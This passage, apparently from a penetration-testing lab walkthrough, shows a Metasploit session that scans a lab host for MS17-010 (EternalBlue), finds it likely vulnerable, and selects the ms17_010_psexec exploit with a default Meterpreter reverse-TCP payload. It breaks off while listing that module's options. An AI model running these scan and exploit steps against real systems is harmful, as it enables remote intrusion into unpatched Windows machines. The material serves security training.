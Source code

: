 ```shell
                k/data/wordlists/named_pipes.t
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts f
                                                          ile with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97

RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

3. Select Exploit & Payload, then Deliver : 

```shell
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

```shell
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
```